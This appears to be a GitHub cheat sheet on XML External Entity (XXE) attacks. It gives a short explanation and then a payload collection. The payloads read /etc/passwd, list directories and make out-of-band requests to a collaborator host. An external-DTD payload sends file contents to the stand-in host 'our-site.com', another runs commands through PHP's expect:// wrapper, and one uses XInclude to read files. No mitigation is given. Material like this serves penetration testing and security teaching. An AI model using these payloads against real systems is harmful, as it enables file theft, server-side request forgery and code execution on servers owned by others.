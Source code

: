 ## What is it?

XML External Entity (XXE) vulnerabilities occur when an application processes XML input that includes a reference to an external entity. This vulnerability can occur in any technology that parses XML. By exploiting an XXE vulnerability, an attacker can read local files on the server, interact with internal systems, or conduct denial of service attacks.

**A simple example**

A vulnerable application might parse XML input from a user without disabling external entities. An attacker could then send XML like the following:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

In this case, the XML parser will replace `&xxe;` with the contents of the `/etc/passwd` file and include it in the output.

XXE can often lead to:

-   Disclosure of internal files
-   Server Side Request Forgery (SSRF)
-   Denial of Service
-   Remote Code Execution in some rare cases

---

## Exploitation

Detect XXE

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe "test"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Include files
_Note:_ You might need `"file:///etc/passwd"`

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

List files: _Note:_ Restricted to Java applications

```
<!--?xml version="1.0" ?-->
<!DOCTYPE aa[<!ELEMENT bb ANY>
<!ENTITY xxe SYSTEM "file:///">]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Out-of-band:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://collaborator"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Parameter entities:

```
<!DOCTYPE ase [ <!ENTITY % xxe SYSTEM "http://collaborator"> %xxe; ]>
```

Load an external DTD:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://our-site.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Execute code _Note:_ Only works in the PHP 'expect' module is available

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<foo>
    <bar>&xxe;</bar>
</foo>
```

**Include XML as a parameter value**

```
param=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**Other sources**

-   Fuzzing for XXE https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/XML.txt
-   Fuzzing for local DTDs https://github.com/GoSecure/dtd-finder/tree/master/list